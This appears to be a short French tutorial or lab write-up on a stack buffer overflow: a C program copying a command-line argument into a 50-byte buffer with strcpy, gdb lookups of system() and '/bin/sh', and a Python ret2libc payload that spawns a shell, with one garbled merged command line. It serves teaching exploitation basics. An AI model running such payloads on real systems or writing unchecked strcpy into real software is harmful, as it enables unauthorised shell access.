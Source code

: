 
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *arg)
{
    char buffer[50];
    strcpy(buffer,arg);
    printf("Bienvenue %s !\n", buffer);
}

int main(int argc, char *argv[])
{
    if(argc != 2) printf("Welcome <votre prenom> \n");
    else func(argv[1]);
    return 0;
}
```

Apres avoir trouver l'`offset` , il faut executer la fonction `systeme` et lui donner comme arguement `/bin/sh`

```c
(gdb) print system
# $1 = {<text variable, no debug info>} 0xf7c4c870 <system>
```

```c
(gdb)  find /bin/sh
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
#libc.so.6 : 0xf7db5fc8 ("/bin/sh")
```

Une fois que nous connaissons les addresses memoires de `system` et `/bin/sh` nous pouvons utiliser le script suivant pour l'exploiter

```python
buf = "A" * 54 # Offset
buf +=  "\x70\xc8\xc4\xf7" # system <--- reverse notation
buf += "\x90" * 4 # NOPs
buf += "\xc8\x5f\xdb\xf7" # /bin/sh <-- reverse notation
print buf./run $(python2 exploit.py)
```

> **Executer le programme pour obtenir un shell**

```c
./run $(python2 exploit.py)
```
